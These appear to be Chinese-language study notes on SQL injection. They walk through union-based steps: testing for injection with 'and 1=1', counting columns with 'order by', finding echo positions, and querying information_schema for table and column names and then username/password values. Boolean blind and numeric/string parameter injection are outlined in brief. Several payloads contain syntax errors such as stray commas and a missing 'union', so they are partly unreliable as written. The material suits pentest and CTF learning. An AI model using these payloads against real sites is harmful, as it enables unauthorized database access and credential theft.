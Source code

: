 

```
1. 判断是否存在注入
?id=1 and 1=1 --+ True页面正常
?id=1 and 1=2 --+ Flase页面异常
2. 判断字段数
?id=1 order by 4 --+ 页面正常
?id=1 order by 5 --+ 页面异常
3. 判断回显位置
?id=1 union select 1,2,3,4 --+
 4. 查询数据库名
?id=1 select 1,2,3,database() --+
 5. 查询数据表
如果MySQL版本大于5.0的话，存在内置表可以通过内置Information_schema表查询
?id=1 union select 1,table_name,from information_schema.tables where table_schema = database() --+
 6. 查询字段名称
?id=1 union select 1,column_name,from information_schema.columns where table_name = 'xx' --+
 7. 查询字段值
select 1,username,password, from web --+
```

### 布尔注入

```
1. 检测注入点，为字符型or数字型

2. 数据库长度

3. 猜测数据库ascii码

4. 猜测表名长度

5. 猜测表名ascii码

6. 猜测列名长度

7. 猜测列名ascii码

8. 猜测字段数量

9. 猜测字段长度

10. 猜测字段ascii
```

### **参数注入**

```
1. 数字型
   先使用?id=1查看是否能注入，再使用order by 判断几列，再使用联合注入查询 对应的字段的内容
   如user（）database（）注意这里是需要的将前面的值进行错误处理；
   后面通过字段中间查询找出库表字段
   库可以通过database（）
   表可以通过table_name 查询 使用limit 或者group_concat  加上限制词 where 
   字段名通过column_name 查询 上通
   最后查询对应字段
   完成
2. 字符型
   上同 只是加入字符串号 闭合单引号
```
